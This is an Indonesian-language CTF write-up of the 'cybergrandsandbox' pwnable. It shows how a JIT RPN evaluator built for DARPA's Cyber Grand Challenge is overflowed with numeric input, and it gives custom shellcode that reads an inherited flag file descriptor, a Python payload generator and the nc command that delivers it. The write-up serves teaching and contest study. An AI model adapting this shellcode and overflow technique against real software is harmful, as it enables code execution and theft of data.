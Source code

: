 # cybergrandsandbox

**Kategori:** Pwnable
**Points:** 2
**Deskripsi**

> [You'll need these](http://repo.cybergrandchallenge.com/boxes/)
>
> https://github.com/CyberGrandChallenge/cgc-release-documentation/blob/master/walk-throughs/running-the-vm.md
>
> [Pwn This](http://downloads.notmalware.ru/cybergrandsandbox_e722a7ec2ad46b9fb8472db37cb95713)
> 
> [This launches it](http://downloads.notmalware.ru/cybergrandsandbox_launcher_cf878d2811220c8793ae9b132d7fd490)
> 
> cybergrandsandbox_e722a7ec2ad46b9fb8472db37cb95713.quals.shallweplayaga.me:4347

## Write-up

Sesuai instruksi, kita diberikan sebuah binary untuk DARPA [Cyber Grand Challenge](www.darpa.mil/cybergrandchallenge/), yang tampaknya bukan executable biasa. Setelah membaca instruksinya, ternyata kita perlu menjalankan binary ini di virtual machine. Pengguna IDA Pro bisa menggunakan loader <http://idabook.com/cgc/> untuk bisa meload filenya.

Teknologi yang dipakai untuk mensetup virtual machine adalah Vagrant. Tadinya malas mencoba challenge ini, karena lambat sekali ketika mendownload file box dengan Vagrant (single connectiond ownload). Karena sudah pernah memakai Vagrant sebelumnya, saya ingat bahwa file .box bisa didownload dengan download manager dan ditambahkan secara manual dengan `vagrant box add`.  Setelah VM berjalan, saya bisa mencoba binary ini, yang cuma keluar teks `>`


     vagrant@cgc-linux-packer:~$ ./cybergrandsandbox-bin 
     > 

Setelah dipelajari source codenya, ternyata ini evaluator RPN, untuk menghitung 2 + 3, kita masukkan

     > 2 3 +
     5 (0x00000005)

Perhatikan bahwa dengan `strace` bisa dilihat bahwa binary ini tidak memakai syscall standar:

	vagrant@cgc-linux-packer:~$ strace ./cybergrandsandbox-bin 
	execve("./cybergrandsandbox-bin", ["./cybergrandsandbox-bin"], [/* 22 vars */]) = 0
	allocate(0x10008, 0, [0xb7fef000])      = 0
	allocate(0x1394, 1, [0xb7fed000])       = 0
	transmit(1, "> ", 2, > [2])               = 0
	receive(0, 1 2 +
	"1", 1, [1])                 = 0
	receive(0, " ", 1, [1])                 = 0
	receive(0, "2", 1, [1])                 = 0
	receive(0, " ", 1, [1])                 = 0
	receive(0, "+", 1, [1])                 = 0
	receive(0, "\n", 1, [1])                = 0
	transmit(1, "3", 1, 3[1])                = 0
	transmit(1, " (0x", 4,  (0x[4])             = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "3", 1, 3[1])                = 0
	transmit(1, ")\n", 2, )
	[2])              = 0
	transmit(1, "> ", 2, > [2])               = 0

Yang menarik adalah: eksekusi dilakukan dengan JIT. Tepatnya setiap token akan menghasilkan kode mesin, sesuai dengan instruksinya. Untuk token angka, angka tersebut diletakkan di alamat memori bawah, jadi kira-kira begini (alamat hanya ilustrasi saja):


Memori | Isi
-------|-------
00001  | var8 = 1
00002  | var9 = 2
...    | ...
00040  | ret
...    | ...
00098  | var9
00099  | var8


Intinya adalah: Jika kita menginput bilangan terlalu banyak, maka ketika dijalankan, kode mesin yang dihasilkan akan menimpa sampai bagian yang berisi nilai variabel. 


Kalau yang benerannya seperti ini: untuk input `1 2 3`, kode yang dihasilkan:

	Dump of assembler code from 0xb7fed000 to 0xb7fed064:
	   0xb7fed000:  55      push   ebp
	   0xb7fed001:  8b ec   mov    ebp,esp
	   0xb7fed003:  81 ec ff 00 00 00       sub    esp,0xff
	   0xb7fed009:  51      push   ecx
	   0xb7fed00a:  31 c0   xor    eax,eax
	   0xb7fed00c:  89 c2   mov    edx,eax
	   0xb7fed00e:  b9 84 e3 fe b7  mov    ecx,0xb7fee384
	   0xb7fed013:  89 39   mov    DWORD PTR [ecx],edi
	   0xb7fed015:  97      xchg   edi,eax
	   0xb7fed016:  b8 01 00 00 00  mov    eax,0x1
	   0xb7fed01b:  b9 80 e3 fe b7  mov    ecx,0xb7fee380
	   0xb7fed020:  89 39   mov    DWORD PTR [ecx],edi
	   0xb7fed022:  97      xchg   edi,eax
	   0xb7fed023:  b8 02 00 00 00  mov    eax,0x2
	   0xb7fed028:  b9 7c e3 fe b7  mov    ecx,0xb7fee37c
	   0xb7fed02d:  89 39   mov    DWORD PTR [ecx],edi
	   0xb7fed02f:  97      xchg   edi,eax
	   0xb7fed030:  b8 03 00 00 00  mov    eax,0x3
	   0xb7fed035:  59      pop    ecx
	   0xb7fed036:  8b e5   mov    esp,ebp
	   0xb7fed038:  5d      pop    ebp
	   0xb7fed039:  c3      ret
	   
Perhatikan di alamat `0xb7fed013` kodenya menulis ke `0xb7fee384`

	   0xb7fed00e:  b9 84 e3 fe b7  mov    ecx,0xb7fee384
	   0xb7fed013:  89 39   mov    DWORD PTR [ecx],edi

Dan di alamat `0xb7fed020`, kodenya menulis ke `0xb7fee380` (lihat 3 digit terakhir, turun dari `384` ke `380`)

	   0xb7fed01b:  b9 80 e3 fe b7  mov    ecx,0xb7fee380
	   0xb7fed020:  89 39   mov    DWORD PTR [ecx],edi

jadi lama-lama akan ada "tabrakan" karena  jarak paling awal hanya 4977 bytes. Karena kita bisa mengendalikan nilai variabel, kita bisa membuat shellcode yang akan dijalankan. Kita harus menulis sendiri shell code untuk CGC ini karena syscall yang dipakai berbeda dengan binary linux biasa. Setelah membaca `man`  mengenai `transmit` dan `receive`, saya bisa mengetahui syscall number untuk keduanya 

     The transmit function is invoked through system call number 2.
     The receive function is invoked through system call number 3.
     
Perhatikan di awal bahwa ada binary yang melaunch program utama, isinya adalah skrip Python:

```python
#!/usr/bin/env python

import os

flag = open("/home/cybergrandsandbox/flag")
os.execv("/home/cybergrandsandbox/cybergrandsandbox-bin", ["/home/cybergrandsandbox/cybergrandsandbox-bin"])
```

Karena skrip tersebut menggunakan `os.execv` (dan bukan `os.system`), maka file handle untuk `flag` masih terbuka, sesuai dengan spesifikasi: penomoran file handle terurut, dan setelah 0 (stdin), 1 (stdout), dan 2 (stderr), maka flag pasti memakai file handle 3. Dari fakta tersebut, saya membuat shell code ini:


    bits 32
    nop
    nop
    nop
    nop
    sub ecx, 100 
    mov eax, 3
    mov ebx, 3
    mov edx, 90
    mov esi,0
    int 0x80
    mov ebx, 1
    mov eax, 2
    int 0x80
    x:
    jmp x

	
Saya memakai beberapa `nop` di depan supaya yakin alignment instruksi berikutnya aman. Untuk buffer membaca file, saya menggunakan `ecx-100` (alamat ini adalah alamat kode yang sudah dieksekusi, jadi aman), berikutnya saya menggunakan syscall `receive` yang nomornya adalah 3 (`eax = 3`) dengan file handle 3 (`ebx = 3`), dan saya baca 90 byte (`edx = 90`), dan saya tidak ingin tahu berapa byte yang terbaca (`esi = 0`). Berikutnya stelah flag terbaca, saya tuliskan di stdout.

Karena syscal mempertahankan (*preserve*) semua register (kecuali `eax` yang merupakan nilai akhir), maka berikutnya saya cuma perlu menset `eax = 2` (syscall untuk transmit), dan menset file handle stdout yang nilainya adalah 1 (`ebx = 1`), sisanya masih sama dengan sebelumnya (menuliskan 90 byte dari `ecx-100`). Setelah itu saya stop programnya dengan jump ke alamat saat ini (`x: jmp x`). 

Saya agak kurang memperhatikan bahwa angka yang dimasukkan boleh berupa hex, jadi exploit saya ini memakai integer:

```python
a = "\t".join([str(x) for x in range(0, 281)]) + "\t"
    
#a += "-1869574000\t" * 9 
b = [2425393296, 3093621123, 3, 955, 5945856, 12451840, 3439329280, 113536,45613056, 3439329280, 16706432]
a += "\t".join([str(x) for x in reversed(b)])
a += "\t0\t0"
#a += "\t[" * 10 #nop
print a
```

Saya tidak membuat kode khusus untuk konek ke server, untuk menjalankannya:

	$ (python ./exp.py; cat) | nc cybergrandsandbox_e722a7ec2ad46b9fb8472db37cb95713.quals.shallweplayaga.me 4347
	> The flag is: g3t 0u+ 0f my 54ndb0x...

Flagnya:

     g3t 0u+ 0f my 54ndb0x...
	
